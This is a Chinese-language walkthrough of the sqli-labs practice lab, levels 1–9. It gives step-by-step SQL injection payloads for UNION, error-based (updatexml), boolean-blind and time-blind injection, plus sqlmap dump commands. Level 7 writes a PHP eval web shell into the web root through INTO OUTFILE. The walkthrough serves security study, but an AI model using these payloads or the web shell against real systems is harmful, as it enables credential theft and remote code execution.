

sql-labs通关笔记(上)
sql-labs通关笔记(上)

联合查询注入
Less-1：GET -Error based.Single quotes -string
界面

在url中加入?id=1

?id=-1

判断注入点
使用’或\来判断是否存在注入点

payload
1 | http://127.0.0.1/sqli/Less-1/?id=-1' |
报错信息
1 | near ''-1'' LIMIT 0,1' at line 1 |
报错信息中，去掉用于标识的两个单引号，报错信息为'-1'' LIMIT 0,1
可以看到我们这一关的sql语句是用单引号闭合的，我们确认一下
payload
1 | http://127.0.0.1/sqli/Less-1/?id=-1' or 1=1--+ |
回显

现在已经可以确定其存在字符型的注入点，使用单引号闭合
判断字段数
关于order by
众所周知，order by是用于排序的，而其中有一项就是可以按照查询数据的索引来举行排序
比如：
1 | select id,title from news order by 2; |
意思就是我们按照查询结果的第二个字段也就是title进行升序（默认升序）排序
结果：

但是当我们的索引号大于我们查询的字段总数时，就会报错，就比如刚刚一段代码，我们查询的字段数为2，当我们以第三个字段进行排序时，就会报错
1 | select id,title from news order by 3; |
结果：

因此，我们可以借助order by这个关键字来判断查询语句中，查询的字段数数量
我们大概可以看到，每次id改变，回显大概有两个，一个用户名，一个密码

因此说明这条查询语句查询的字段至少是2个
我们从3开始,发现并没有报错
payload
1 | http://127.0.0.1/sqli/Less-1/?id=1' order by 3--+ |
结果：

继续尝试4
payload
1 | http://127.0.0.1/sqli/Less-1/?id=1' order by 4--+ |
结果：

由此我们可以发现，我们当前页面的sql语句查询的字段数为3
那么我们为什么要判断字段数呢？
因为我们要使用联合查询进行注入，而联合查询后面联合的sql查询语句查询的字段数需要和前面的sql语句一致，我们依旧在一个数据库中进行演示
比如：
当后面查询语句查询的字段数和前面查询语句查询的字段数相同时：
1 | select id,title from news union select 1,2; |
结果：会将结果罗列到后面

当后面查询语句查询的字段数和前面查询语句查询的字段数不同时：
1 | select id,title from news union select 1,2,3; |
结果：会报错，具有不同的字段数

判断出查询语句的字段数后，我们就可以判断回显位置了，判断我们查询的（3个）字段，会有几个将结果回显到网页页面
判断回显位置
payload
1 | http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,2,3--+ |
结果：可以发现我们的2，3回显到网页页面了，因此我们后面就可以将需要查询的信息，放到2，3的位置上即可

那么，为什么前面要将id=-1？
因为我们网页的回显位置有限，为了将我们想要的数据回显到页面上可以回显的位置，所以需要将原本的查询结果集置为空，因为没有id=-1的数据，所以我们想要的数据1，2，3就会优先填充到回显位上了
爆破数据库名
payload
1 | ?id=-1' union select 1,2,database()--+ |
结果：查询到当前数据库名称为security

爆破表名
payload
1 | ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+ |
- group_concat() 将查询到的多个值聚合成一个字符串，依旧是因为回显位置不足，将其聚合在一个字符串，可以直接全部回显出来
- information_schema MYSQL自带的数据库，里面含有
schemas，tables，coulmns表等，分别储存着所有数据库的信息（包括名称，其余也是），所有表的信息，所有字段的信息，是我们sql注入的强大利器
结果：得到表名emails,referers,uagents,users

一般来说我们最需要的就是用户名和密码，这种东西一般存在users表中，接下来爆破users表的字段
爆破字段名
payload
1 | ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+ |
结果：成功得到字段名user_id,first_name,last_name,user,password,avatar,last_login,failed_login,id,username,password,uname,passwd

可以看到我们查出的数据有点多，我们去数据库中对比一下

发现其实只有三个字段，那么，为什么会查出这么多呢？
没错，因为我们没有指定数据库的名称，只指定了表的名字，当多个数据库中存在相同的表名时，都会被查询出来。如果出现了这种情况，我们可以同时指定数据库的名称
payload
1 | ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'--+ |
结果：只有id,username,password

而我们需要的数据，就是username和password
爆破数据
payload
1 | ?id=-1' union select 1,2,group_concat(username,0x7e,password) from users--+ |
- 0x7e ~的十六进制编码，用来分隔数据
结果：得到所有数据，第一关结束

Less-2：GET -Error based -intiger based
界面
在url中加入?id=1

在url中加入?id=-1

判断注入点
使用’或\来判断是否存在注入点

payload
1 | http://127.0.0.1/sqli/Less-2/?id=-1\ |
报错信息
1 | near '\ LIMIT 0,1' at line 1 |
去掉，用来引用报错信息的单引号，我们可以知道，存在注入点，并且为数值型注入
判断字段数
payload
1 | ?id=1 order by 3--+ |
结果

payload
1 | ?id=1 order by 4--+ |
结果：判断出字段数为3

判断回显位置
payload
1 | ?id=-1 union select 1,2,3--+ |
结果：可以发现我们的2，3回显到网页页面了，因此我们后面就可以将需要查询的信息，放到2，3的位置上即可

爆破数据库名
payload
1 | ?id=-1 union select 1,2,database()--+ |
结果：查询到当前数据库名称为security

爆破表名
payload
1 | ?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+ |
结果：得到表名emails,referers,uagents,users

爆破字段名
payload
1 | ?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'--+ |
结果：成功得到字段名id,username,password

爆破数据
payload
1 | ?id=-1 union select 1,2,group_concat(username,0x7e,password) from users--+ |
结果：得到所有数据，第二关结束

Less-3：GET -Error based -Single quotes with twist -string
界面
在url中加入?id=1

在url中加入?id=-1

判断注入点
使用’或\来判断是否存在注入点

payload
1 | http://127.0.0.1/sqli/Less-3/?id=-1\ |
报错信息
1 | near ''-1\') LIMIT 0,1' at line 1 |
去掉用于引用报错信息的单引号'-1\') LIMIT 0,1 我们可以知道，此时的sql语句是用单引号和括号闭合的
判断字段数
payload
1 | ?id=1') order by 3--+ |
结果

payload
1 | ?id=1') order by 4--+ |
结果:可以判断字段数为3

判断回显位置
payload
1 | ?id=-1') union select 1,2,3--+ |
结果：可以发现我们的2，3回显到网页页面了，因此我们后面就可以将需要查询的信息，放到2，3的位置上即可

爆破数据库名
payload
1 | ?id=-1') union select 1,2,database()--+ |
结果：查询到当前数据库名称为security

爆破表名
payload
1 | ?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+ |
结果：得到表名emails,referers,uagents,users

爆破字段名
payload
1 | ?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'--+ |
结果：成功得到字段名id,username,password

爆破数据
payload
1 | ?id=-1') union select 1,2,group_concat(username,0x7e,password) from users--+ |
结果：得到所有数据，第三关结束

Less-4：GET -Error based -Double Quotes -string
界面
在url中加入?id=1

在url中加入?id=-1

判断注入点
使用’或\来判断是否存在注入点

payload
1 | http://127.0.0.1/sqli/Less-4/?id=-1\ |
报错信息
1 | near '"-1\") LIMIT 0,1' at line 1 |
去掉用于引用报错信息的单引号"-1\") LIMIT 0,1 我们可以知道，此时的sql语句是用双引号和括号闭合的
判断字段数
payload
1 | ?id=1") order by 3--+ |
结果:

payload
1 | ?id=1") order by 4--+ |
结果:可以判断字段数为3

判断回显位置
payload
1 | ?id=-1") union select 1,2,3--+ |
结果：可以发现我们的2，3回显到网页页面了，因此我们后面就可以将需要查询的信息，放到2，3的位置上

爆破数据库名
payload
1 | ?id=-1") union select 1,2,database()--+ |
结果：查询到当前数据库名称为security

爆破表名
payload
1 | ?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+ |
结果：得到表名emails,referers,uagents,users

爆破字段名
payload
1 | ?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security'--+ |
结果：成功得到字段名id,username,password

爆破数据
payload
1 | ?id=-1") union select 1,2,group_concat(username,0x7e,password) from users--+ |
结果：得到所有数据，第四关结束

报错注入
Less-5：GET -Double Injection -single Quotes -String
界面
在url中加入?id=1

在url中加入?id=-1

判断注入点
使用’或\来判断是否存在注入点

payload
1 | http://127.0.0.1/sqli/Less-5/?id=-1\ |
报错信息
1 | near ''-1\' LIMIT 0,1' at line 1 |
去掉用于引用报错信息的单引号'-1\' LIMIT 0,1 我们可以知道，此时的sql语句是用单引号闭合的
判断字段数
payload
1 | ?id=1' order by 3--+ |
结果:

payload
1 | ?id=1' order by 4--+ |
结果:可以判断字段数为3

判断回显位置
payload
1 | ?id=-1' union select 1,2,3--+ |
结果：发现并没有回显，但是我们可以发现前面会有显示报错信息，因此我们可以采用报错注入

关于报错注入
所谓的报错注入就是利用报错信息回显，把想要的结果显示在报错信息中
因此，使用报错注入的前提就是页面会显示报错信息
就说说我最常用的一种报错注入的方式吧，其他的大家可以自行学习
利用xpath语法错误注入
- 适用版本：mysql版本号大于5.1.5
- 从mysql5.1.5开始提供两个XML查询和修改的函数，extractvalue（）和updatexml（）
- Extractvalue（）负责在xml文档中按照xpath语法查询节点内容
- updatexml（）则负责修改查询到的内容
- 用法：这两个函数的第二个参数都要求是符合xpath语法的字符串，如果不满足要求就会报错，并且会把查询结果放在报错信息里。
比如：
payload
1 | select -1 and updatexml(1,concat(0x7e,database()),1) |
结果：因为我们的第二个参数并不符合xpath语法的要求，所以产生报错执行第二个参数的语句

所以这题我们就可以利用报错注入
爆破数据库名
payload
1 | ?id=-1' and updatexml(1,concat(0x7e,database()),1) --+ |
结果：得到数据库名security

爆破表名
payload
1 | ?id=-1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1) --+ |
结果：得到表名emails,referers,uagents,users

爆破字段名
payload
1 | ?id=-1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security')),1) --+ |
结果：成功得到字段名id,username,password

爆破数据
payload
1 | ?id=-1' and updatexml(1,concat(0x7e,(select group_concat(username,0x7e,password) from users)),1) --+ |
结果：得到（部分）数据，其实与之前的数据相比就能看出来这次得到的数据是不完全的

那么为什么我们回显的数据不完全呢？
因为updatexml() 函数和extractvalue()的报错内容长度不能超过 32 个字符，所以需要我们对结果进行处理，可以让我们多次拿出我们想要的数据
我们应该如何处理？
可以使用mid(),left(),substring()函数来对结果字符串进行处理，这里以substring进行演示
关于substring
SUBSTRING ( expression, start, length )
- expression
- 字符串、二进制字符串、文本、图像、列或包含列的表达式。请勿使用包含聚合函数的表达式。
- start
- 整数或可以隐式转换为 int 的表达式，指定子字符串的开始位置，索引是从1开始。
- length
- 整数或可以隐式转换为 int 的表达式，指定子字符串的长度。经测试，暂且发现只能是非负数
就拿我们当前的题目举例，给结果加上substring，我们现在只取第一个字符
也就是相应的应该为substring(xxx,1,1)，也就是将结果从第一位开始取，取1位
payload
1 | ?id=-1' and updatexml(1,concat(0x7e,substring((select group_concat(username,0x7e,password) from users),1,1)),1) --+ |
结果：只有第一位字符D

那么我们知道，报错信息只能输出32位，相当于以下语句
payload
1 | ?id=-1' and updatexml(1,concat(0x7e,substring((select group_concat(username,0x7e,password) from users),1,32)),1) --+ |
结果：和不加这个substring是一样的

而现在我们想要得到后面的数据，(因为我们前面还有一个0x7e，所以后面的字符只显示31位，也就是说默认显示的数据是（~+1-31位的数据），前面的0x7e去掉也没问题)所以我们需要从第32位开始，只需要将开始位改为32即可，即substring(xxx,32,32)
payload
1 | ?id=-1' and updatexml(1,concat(0x7e,substring((select group_concat(username,0x7e,password) from users),32,32)),1) --+ |
结果：得到后面的部分结果，因此我们可以利用这个方法得到所有数据，后面不再演示，第五关结束

Less-6：GET -Double injection -Double Quotes -string
界面
在url中加入?id=1

在url中加入?id=-1

可以看到这次界面上依旧没有回显，基本可以确定不能使用联合查询注入
判断注入点
使用’或\来判断是否存在注入点

payload
1 | http://127.0.0.1/sqli/Less-6/?id=-1\ |
报错信息：存在报错信息，说明可以使用报错注入
1 | near '"-1\" LIMIT 0,1' at line 1 |
去掉用于引用报错信息的单引号"-1\" LIMIT 0,1 我们可以知道，此时的sql语句是双引号闭合的
爆破数据库名
payload
1 | ?id=-1" and updatexml(1,concat(0x7e,database()),1) --+ |
结果：得到数据库名security

爆破表名
payload
1 | ?id=-1" and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1) --+ |
结果：得到表名emails,referers,uagents,users

爆破字段名
payload
1 | ?id=-1" and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security')),1) --+ |
结果：成功得到字段名id,username,password

爆破数据
payload
1 | ?id=-1" and updatexml(1,concat(0x7e,substring((select group_concat(username,0x7e,password) from users),1,32)),1) --+ |
结果：得到（部分）数据,第六关结束

写入文件
Less-7：GET -Dump into outfile -string
界面
在url中加入?id=1

在url中加入?id=-1

得到的基础信息是，无回显，无具体的报错信息，那么可能我们的联合查询注入和报错注入都不能使用
判断注入点
通过页面不同的反馈来判断注入点和闭合方式，我们知道如果未能将引号闭合时，会发生报错
也就是说若是闭合方式中有我们尝试的字符，就会报错，如果没有就不会报错。
而报错和不报错页面都在上面了，我们开始尝试
先看最内层是单引号还是双引号
payload：单引号
1 | ?id=1' |
结果：其实已经可以看出闭合方式中含有单引号了，我们继续试一下双引号

payload：双引号
1 | ?id=1" |
结果：未报错，说明不含双引号

此时我们判断出，闭合方式中含有单引号，我们假设只有单引号，加上or 1=1 —+ 如果完全闭合将不会报错，若未完全闭合，就会报错
payload
1 | ?id=1' or 1=1 --+ |
结果：报错，说明未完全闭合

我们继续尝试，直到不报错即可，最后判断出闭合方式为一个单引号和两个括号
payload
1 | ?id=1')) --+ |
结果：未报错，判断闭合方式成功

但是，没有回显不能用联合注入，没有精确的报错信息无法使用报错注入，我们应该如何呢？
可以看到，不报错的页面有一个提示Use outfile ，我们可以联想到sql语句中的into outfile
关于into outfile
sql语句中into outfile函数可以将文件导入到数据库的目录中
在演示之前，我们需要知道完成into outfile操作需要满足三点要求
- 1.具有root权限。
- 2.在数据库配置文件中的 配置项含有：secure_file_priv=’’。（注意在数据库中此项默认为secure_file_priv=null）
- 3.知道数据库的绝对路径。
第一点，我们在搭建靶场时就是使用的root连接的数据库，所以第一点我们已经满足了
第二点我们需要手动修改，首先使用命令行连接mysql数据库
如果没有添加环境变量可以到我们phpstudy的mysql文件位置

然后进入到bin目录下

shift+右键打开命令行，输入密码连接数据库
1 | mysql -u root -p |

查看secure_file_priv配置，如果为null则无法进行文件导出操作，默认为null
1 | show variables like '%secure%'; |

打开mysql下的my.ini

将secure_file_priv="/" 添加到配置文件

此时重启mysql服务，然后再次查询，发现已经成功了，此时我们已经对C:\目录下的所有文件具有写入权限了
1 | show variables like '%secure%'; |

此时我们可以写入以下试试
payload
1 | select 1,2,3 into outfile "C:\\phpStudy\\1.txt" |
结果：成功写入


但是一般情况下，可以写入的目录不可能是整个C盘，一般只是在Mysql的目录下，或者其他特定目录比如phpStudy目录下的WWW目录。这就需要我们需要其他方式获得可以写入文件的路径
比如可以通过有回显的页面获取，我们可以去到less-1
使用查询@@basedir,@@datadir 来确定MySQL的基础目录和数据目录，
payload
1 | ?id=-1' union select 1,@@basedir,@@datadir--+ |
结果：得到可写入目录C:/phpStudy/MySQL/ 和C:\phpStudy\MySQL\data\，但一般能通过这种方式找到写入目录，我们也可以得到数据库中的其他数据，因此这种情形应用场景还是比较有限的，现在我们就模拟拥有对phpStudy的WWW目录的写入权限

写入木马
payload
1 | ?id=-1')) union select 1,2,"<?php @eval($_POST[1]);?>" into outfile "C:\\phpStudy\\WWW\\shell.php"--+ |
结果：报错,需要访问shell.php来确定写入是否成功

访问shell.php：
payload：
1 | http://127.0.0.1/shell.php |
结果：写入成功

使用蚁剑连接木马
连接成功

也可以利用此办法将数据写入这种可访问的文件
将数据写入可访问的文件
payload：将数据写入result.txt
1 | ?id=-1')) union select 1,2,group_concat(username,0x7e,password)from users into outfile "C:\\phpStudy\\WWW\\result.txt"--+ |
结果：访问result.txt，第七关结束

盲注
Less-8：GET -Blind -Boolian Based -single Quotes
界面
在url中加入?id=1

在url中加入?id=-1

没有回显，没有报错信息，但真和假条件的页面不同，可以采用盲注
判断注入点
使用’来判断是否存在注入点
payload
1 | http://127.0.0.1/sqli/Less-8/?id=1' |
结果:报错说明其中含有单引号，注释掉后面的单引号，看是否报错

payload
1 | http://127.0.0.1/sqli/Less-8/?id=1' --+ |
结果：不报错，说明闭合方式为单引号

爆破数据库名
payload：and两端都为真，整体结果才为真
1 | /?id=1' and ascii(substring((select database()),1,1))>1--+ |
结果：可以真假页面显示的不同来判断我们构造的条件是否正确，scii(substring((select database()),1,1))>1 为真

payload
1 | /?id=1' and ascii(substring((select database()),1,1))>128--+ |
结果：ascii(substring((select database()),1,1))>128--+ 为假

我们可以使用这种方式并结合二分法来快速猜取数据库名，表名等
最终得到数据库名为security
payload
1 | ?id=1' and (select database())="security"--+ |
结果：数据库名为security

当然，这种方法还是有些麻烦，我们可以借助工具和脚本来完成，这里演示一下使用sqlmap进行爆破
使用Sqlmap进行GET类型注入
payload
1 | sqlmap -u http://192.168.199.128/sqli/Less-8/?id=1 |
- -u 表示要进行注入的地方
结果：得到此get注入的存在的注入类型为布尔盲注

使用Sqlmap爆破数据库名称
payload：在刚刚的基础上加入—dbs/—current-db
1 | sqlmap -u http://192.168.199.128/sqli/Less-8/?id=1 --dbs |
- —dbs 对所有数据库名称进行爆破
- —current-db对当前使用数据库机型爆破
结果：得到数据库名security

使用Sqlmap爆破表名称
payload
1 | sqlmap -u http://192.168.199.128/sqli/Less-8/?id=1 -D security --tables |
- -D 指定数据库
- —tables 对表名进行爆破
结果：得到表名users

使用Sqlmap爆破字段名称
payload
1 | sqlmap -u http://192.168.199.128/sqli/Less-8/?id=1 -D security -T users --columns |
- -T 指定表名
- —columns 对字段名进行爆破
结果：得到字段名

使用Sqlmap爆破数据
payload
1 | sqlmap -u http://192.168.199.128/sqli/Less-8/?id=1 -D security -T users --dump --threads 10 |
- —dump 对数据进行爆破
- —threads 10 使用十线程当数据较多时增加线程可以加快速度
结果：得到数据，第八关结束

Less-9：GET - Blind Time based - single Quotes
界面
在url中加入?id=1

在url中加入?id=-1

我们其实可以知道，当数据库没有一个数据的时候，应当会报错或是页面应该和查到一个数据的时候不同，我们的布尔盲注就是利用如此原理，但此时我们发现无论输入的id正确与否，页面都未发生改变，又无回显也没有报错信息，因此此时可以使用时间盲注
时间盲注
布尔盲注时根据页面的变化作为参照让我们知道我们构造的条件是否正确，而当页面没有变化时，我们仍需要一个参照来确认我们构造的条件是否正确
用什么作为参照？
没错，就是时间，在sql中有一个函数为sleep(n)可以将程序挂起n秒钟，并且搭配if(1，2，3)，达到当我们构造的条件为真时，就进行睡眠。为假时就不做操作的效果
函数及效果
- if(1,2,3) 1处为条件，为真时执行2处语句，为假时执行3处语句
- sleep(n) 将程序挂起n秒钟
判断注入点
使用各种符号加上 and sleep(3)—+来判断闭合方式，需要保持and前的条件为真
payload
1 | ?id=1' and sleep(3)--+ |
结果：页面挂起将近三秒sleep正确执行，闭合方式为单引号
页面延迟近3秒

也可以在F12的开发者工具中的网络中看到延迟

关于and和or的使用
那么为什么要使用and，而不用or呢？
在此之前我们需要知道and和or的执行特性
我们都知道and只有在两边的条件都为真的时候，整体才为真
那么当第一个条件为假的时候，我们的第二个条件还会执行么？
我们可以在数据库中验证一下
payload：如果第一个条件为假变不会执行第二个，那么我们的程序便不会挂起，反之，挂起将近3s
1 | select false and sleep(3); |
结果：未挂起，说明在and中第一个条件为假时不会执行第二个，我们可以构造一条第一个条件为真时执行并判断第二个条件的sql语句来验证这个结论

payload：
1 | select true and sleep(3); |
结果：挂起三秒后显示结果，验证了上一个结论，并且说明在and中当第一个条件为真时会继续运行并验证第二个条件

由and的特性来说，最终结果为0，也就是假，说明sleep()的返回值为假

那么，关于or呢？
我们都知道or是两边任一为真时，整体的结果为真
那么当第一个结果为真，还会继续执行并判断第二个条件么？
我们继续在数据库中实验
payload
1 | select true or sleep(3); |
结果：并未挂起，说明在or中当第一个条件为真时不会对第二个条件进行执行和判断

我们可以构造一条第一个条件为假时执行并判断第二个条件的sql语句来验证这个结论
payload
1 | select false or sleep(3); |
结果：挂起将近三秒，说明在or中若第一个条件为假，则会接着判断第二个条件

那么，还记得我们最初的问题么？为什么使用and不用or？
我们试着将一开始的语句换成or试试
1 | SELECT * FROM users WHERE id='1' or sleep(3) |
结果：挂起将近一分钟

那么为什么会挂起一分钟呢？
我们分析一下，当查询语句每查到一条数据的时候，按照or的判断规则
都会先判断第一个条件即
判断id是否等于1，若不等于就会睡眠3秒，只有当id等于1的时候才不会挂起
因此当数据库条目很多的时候，则会造成挂起很久的情况。
因此不建议使用or
爆破数据库名
payload
1 | ?id=1' and if(ascii(substring((select database()),1,1))>10,sleep(3),0)--+ |
结果：判断出数据库的第一个字符为s，睡眠三秒，后面将使用sqlmap进行演示

payload
1 | sqlmap -u http://192.168.199.128/sqli/Less-9/?id=1 --threads 10 |
结果：发现时间型盲注

payload
1 | sqlmap -u http://192.168.199.128/sqli/Less-9/?id=1 --threads 10 --current-db |
结果：得到数据库名security

爆破表名
payload
1 | sqlmap -u http://192.168.199.128/sqli/Less-9/?id=1 --threads 10 -D security --tables |
结果：得到表名

爆破字段名
payload
1 | sqlmap -u http://192.168.199.128/sqli/Less-9/?id=1 --threads 10 -D security -T users --columns |
结果：得到字段名

爆破数据
payload
1 | sqlmap -u http://192.168.199.128/sqli/Less-9/?id=1 --threads 10 -D security --dump |
结果：得到数据，第九关结束